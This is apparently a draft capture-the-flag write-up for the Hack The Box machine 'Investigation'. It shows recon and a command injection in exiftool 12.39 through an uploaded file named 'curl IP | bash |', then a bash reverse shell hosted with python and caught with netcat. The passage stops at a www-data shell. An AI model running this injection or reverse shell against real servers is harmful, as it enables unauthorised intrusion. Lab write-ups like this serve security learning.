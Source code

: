 ```yaml
---
title: "Hackthebox Investigation"
date: 2023-01-25T14:44:57+01:00
draft: true
---
```


On Investigation we exploit an exiftool vulnerability from file upload that allow command execution and to gain a reverse shell.
Next we get credentials for one user from a mail text message. Finally, for root we have to do a little bit
of binary exploitation using ghidra.
<!--more-->

## Nmap

As usual we start we some recon :

```
nmap 10.129.139.235
Nmap scan report for 10.129.139.235
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
```

## HTTP:80

![image text](/investigation_htb_web.png)

Jumping on the website we see a free service which allow us to upload image file (png/jpg) :

![image text](/investigation_htb_upload.png)

The output allows us to view exiftool's version number.

![image text](/investigation_htb_exif.png)

The version is 12.39 and it seems that it's vulnerable to command injection through a crafted filename. 
If the filename passed to exiftool ends with a pipe character `|` and exists on the filesystem,
then the file will be treated as a pipe and executed as an OS command.

The proof of concept can be found **[here](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)**.
Now all we have to do is to rename our image file with one linux command add the pipe at the end : 

```
mv image.png 'curl IP | bash |'
```
Next we need to create and index.html file, put a bash reverse shell in it and host our file using python :

```
cat index.html
bash -i >& /dev/tcp/IP/6666 0>&1
```
```
python3 -m http.server 80
```

Setup a netcat listener and let's go :

```bash
nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.129.139.235
www-data@investigation:~/uploads/1674415004$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

